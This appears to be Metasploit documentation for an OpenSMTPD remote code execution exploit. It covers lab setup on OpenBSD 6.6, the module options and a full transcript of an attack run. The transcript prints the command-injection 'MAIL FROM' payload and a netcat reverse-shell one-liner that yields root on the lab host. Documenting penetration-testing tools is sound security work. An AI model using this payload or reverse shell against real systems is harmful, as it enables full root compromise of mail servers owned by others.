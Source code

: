 ## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute a command as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to `foo.localdomain` in VMware)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.localdomain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets OpenSMTPD versions 6.4.0 through 6.6.1.

## Options

### RCPT_TO

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf exploit(unix/smtp/opensmtpd_mail_from_rce) > options

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RCPT_TO  root             yes       Valid mail recipient
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    25               yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   OpenSMTPD 6.4.0 - 6.6.1


msf exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 172.16.249.137
rhosts => 172.16.249.137
msf exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[+] mkfifo /tmp/twkfr; nc 172.16.249.1 4444 0</tmp/twkfr | /bin/sh >/tmp/twkfr 2>&1; rm /tmp/twkfr
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] 172.16.249.137:25 - Executing automatic check (disable AutoCheck to override)
[!] 172.16.249.137:25 - The service is running, but could not be validated.
[*] 172.16.249.137:25 - Connecting to OpenSMTPD
[*] 172.16.249.137:25 - Saying hello and sending exploit
[*] 172.16.249.137:25 - Expecting: /220.*OpenSMTPD/
[+] 172.16.249.137:25 - Received: 220 foo.localdomain ESMTP OpenSMTPD
[*] 172.16.249.137:25 - Sending: HELO JijrF2eskbXFfdlaV
[*] 172.16.249.137:25 - Expecting: /250.*pleased to meet you/
[+] 172.16.249.137:25 - Received:
250 foo.localdomain Hello JijrF2eskbXFfdlaV [172.16.249.1], pleased to meet you
[*] 172.16.249.137:25 - Sending: MAIL FROM:<;for W in a n 0 9 g D 7 N 7 B K R i u;do read W;done;sh;exit 0;>
[*] 172.16.249.137:25 - Expecting: /250.*Ok/
[+] 172.16.249.137:25 - Received:
250 2.0.0 Ok
[*] 172.16.249.137:25 - Sending: RCPT TO:<root>
[*] 172.16.249.137:25 - Expecting: /250.*Recipient ok/
[+] 172.16.249.137:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 172.16.249.137:25 - Sending: DATA
[*] 172.16.249.137:25 - Expecting: /354 Enter mail.*itself/
[+] 172.16.249.137:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 172.16.249.137:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/rsnzh; nc 172.16.249.1 4444 0</tmp/rsnzh | /bin/sh >/tmp/rsnzh 2>&1; rm /tmp/rsnzh
[*] 172.16.249.137:25 - Sending: .
[*] 172.16.249.137:25 - Expecting: /250.*Message accepted for delivery/
[+] 172.16.249.137:25 - Received:
250 2.0.0 5bd4f87d Message accepted for delivery
[*] 172.16.249.137:25 - Sending: QUIT
[*] 172.16.249.137:25 - Expecting: /221.*Bye/
[+] 172.16.249.137:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:28550) at 2020-02-28 10:28:14 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```
